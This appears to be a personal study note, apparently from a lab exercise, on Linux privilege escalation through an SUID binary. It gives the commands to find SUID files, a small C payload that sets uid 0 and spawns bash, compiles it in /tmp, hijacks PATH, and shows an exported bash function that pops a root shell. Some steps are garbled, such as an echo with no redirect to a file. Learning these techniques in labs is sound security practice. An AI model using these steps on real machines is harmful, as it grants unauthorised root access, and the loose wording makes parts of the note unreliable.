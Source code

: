 #find 
1) 
```shell
find / -type f -perm -0400 -ls 2>/dev/null 
```

If the environment variables initiated with set user id (SUID). then it is malicious on the machine.

![[Pasted image 20230808143805.png]]

2) checking the `suid-env` binary file using strings 
	![[Pasted image 20230808143946.png|400]]
3) `print $PATH` - here the first path has been mentioned as local/bin which the suid-env file place. what if we changed the path to diff which the malicious file was saved.
	![[Pasted image 20230808144117.png]]
4) created Malicious payload under name of service to gain the root shell.
	 ```shell
	 echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }'
```
5) saving and compiling the file in temp folder
	```shell
	gcc /tmp/service.c -o /tmp/service
```
6) changed the path to `export PATH=/tmp:$PATH`. Here the tmp has been called first as the malicious file.
	![[Pasted image 20230808145101.png]]

**Another method**

1) creating an function and tries to execute it.
	```shell
	function /usr/sbin/service() {cp /bin/bash /tmp && chmod +x /tmp/bash && /tmp/bash -p; }
```
2) then export the shell `export -f /usr/sbin/service`
3) After running the suid-env file, you get the pop out of root shell
	 ![[Pasted image 20230808145741.png]]